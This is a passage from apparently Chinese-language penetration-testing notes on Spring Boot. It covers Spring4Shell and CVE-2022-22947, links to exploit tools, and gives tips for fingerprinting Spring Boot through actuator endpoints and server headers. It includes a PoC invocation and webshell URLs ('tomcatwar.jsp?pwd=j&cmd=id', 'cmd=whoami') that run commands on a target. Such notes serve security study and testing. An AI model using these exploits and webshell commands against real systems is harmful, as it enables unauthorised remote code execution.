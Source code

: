 http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id

-工具项目：

https://github.com/BobTheShoplifter/Spring4Shell-PoC

python poc.py --url=http://192.168.44.131/

http://192.168.44.131/tomcatwar.jsp?pwd=j&cmd=whoami

4、Spring boot命令执行 (CVE-2022-22947)

参考：https://cloud.tencent.com/developer/article/2164533

Spring Cloud Gateway是Spring中的一个API网关。

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway 3.0.x < 3.0.7

其他旧的、不受支持的Spring Cloud Gateway 版本

5、监控配置不当利用：

见前面Actuator-heapdump利用讲解

-综合CVE利用工具：

https://github.com/0x727/SpringBootExploit

https://github.com/13exp/SpringBoot-Scan-GUI

## 识别springboot

 1 观察默认 URL 结构
 ```
Spring Boot 的应用通常具有 RESTful 风格的 API，URL 可能如下：
http://example.com/api/users
http://example.com/api/login
http://example.com/actuator/health
http://example.com/actuator/info
```
其中，`/actuator` 端点是 Spring Boot **默认的管理接口**（但生产环境通常会关闭）。

2 HTTP 头部信息
Spring Boot 默认的 Web 服务器是 **Tomcat（嵌入式）**，所以可能在响应头中看到：
```
Server: Apache-Coyote/1.1
```
或者：
```
Server: Spring Boot
```

3 访问 Spring Boot Actuator 端点
Spring Boot 自带 **Actuator** 监控端点，部分默认路径：
```
http://example.com/actuator
http://example.com/actuator/health
http://example.com/actuator/info
http://example.com/actuator/env
```
如果返回 JSON 结构的信息，例如：
```
{
    "status": "UP"
}
```
说明目标可能是 Spring Boot。
